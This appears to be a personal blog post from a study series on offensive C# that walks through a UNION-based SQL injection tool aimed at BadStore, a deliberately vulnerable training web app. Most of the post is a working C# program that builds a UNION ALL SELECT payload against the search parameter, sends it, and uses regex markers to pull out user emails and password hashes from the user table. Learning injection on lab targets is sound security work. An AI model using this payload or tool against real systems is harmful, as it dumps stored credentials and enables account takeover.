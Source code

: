 ```yaml
---
title: Creating a UNION based mutational fuzzer to dump the database.
date: 2021-06-12 10:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UNION based mutational fuzzer to dump the database.
---
```


## This Program is a UNION-Based mutational fuzzer that will use UNION based queries to pull out the db in a single http request.

_UNION injection is faster than boolean based/blind injection_.

- 2 major aspects are required for a succesfull UNION injection - Balance out the number of columns using SELECT statements and programatically find the data using regex.

- We use the:
  > SELECT function to balance out columns.
  
  > CONCAT function to surround the data with padding we care about.

- We use the "Regex" class and the "MatchCollection" class using the "System.Text.RegularExpressions" namespace to find and match the surrounding padded data from the CONCAT() function and extract the data in between.

### Code Block:

```Csharp
using System;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.IO;
using System.Text.RegularExpressions;
using System.Web;


namespace Union_sql_fuzzer
{
    class Program
    {
        static void Main(string[] args)
        {
            string frontMarker = "FrOnTmArKeR";
            string middleMarker = "MiDdLeMaRkEr";
            string endMarker = "EnDmArKeR";

            string frontHex = string.Join("", frontMarker.Select(c => ((int)c).ToString("X2")));
            string middleHex = string.Join("", middleMarker.Select(c => ((int)c).ToString("X2")));
            string endHex = string.Join("", endMarker.Select(c => ((int)c).ToString("X2")));

            string url = "http://" + args[0] + "/cgi-bin/badstore.cgi";
            //payload definition slightly changed from source
            string payload = "fdsa' UNION ALL SELECT";
            payload += " NULL, NULL, NULL, CONCAT(0x" + frontHex + ", IFNULL(CAST(email AS";
            payload += " CHAR), NULL), 0x" + middleHex + ", IFNULL(CAST(passwd AS";
            payload += " CHAR), NULL), 0x" + endHex + ") FROM badstoredb.userdb# ";
            //HttpUtilty method used instead of Uri.EscapeUriString() method
            url += "?searchquery=" + HttpUtility.UrlEncode(payload) + "&action=search";
            Console.WriteLine("Fuzzing for union sql injections on url: \n" + url);

            //Making the Web request
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url);
            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            //Regex definition
            Regex payloadRegex = new Regex(frontMarker + "(.*?)" + middleMarker + "(.*?)" + endMarker);
            MatchCollection matches = payloadRegex.Matches(response);
            foreach (Match match in matches)
            {
                Console.WriteLine("\r\n[+] Username found is: " + match.Groups[1].Value + "\t");
                Console.Write("[+] Password Hash found is: " + match.Groups[2].Value + "\n");
            }
        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/UNION_sql_fuzzer/union_sql_fuzzer.png)
